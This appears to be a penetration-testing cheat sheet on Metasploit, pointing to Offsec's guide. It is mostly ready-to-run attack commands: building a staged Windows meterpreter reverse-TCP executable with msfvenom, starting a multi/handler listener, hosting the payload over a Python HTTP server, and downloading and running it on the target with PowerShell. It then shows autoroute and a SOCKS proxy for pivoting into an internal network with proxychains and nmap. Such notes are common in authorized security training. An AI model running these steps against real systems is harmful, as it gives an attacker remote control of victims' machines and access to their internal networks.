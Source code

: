 [Offsec's Metasploit Page](https://www.offsec.com/metasploit-unleashed/) has a very good guide for Metasploit usage.

## Staged Reverse Shell

We create the staged executables that we will transfer on the targets

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o met.exe
```

And in msfconsole we start the listener

```shell
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <HOST-IP>
set LPORT <PORT>
set ExitOnSession false
run -j
```

We start the python server to serve the exploit on the machine

```shell
python3 -m http.server <PORT>
```

On the target we download the file and we run the executable

```powershell
iwr -uri http://<HOST-IP>:<PORT>/met.exe -Outfile met.exe
.\met.exe
```

### One liner Listener

We can use metasploit also via oneliner commands

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```

## Auto-route and Proxy

Metasploit can also help us with port forwarding. We can set up the `autoroute module`

```shell
use multi/manage/autoroute
set session <SESSION>
run
```

And then we start the socks proxy

```shell
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
set VERSION 5
run -j
```

In this way all the traffic routed through the exploited machine will be redirected in our 127.0.0.1, port 1080. With proxychains we can run command thorugh the proxy and enumerate the internal network

```shell
proxychains nmap -sT -oN -p 80 192.168.1.0/24 
```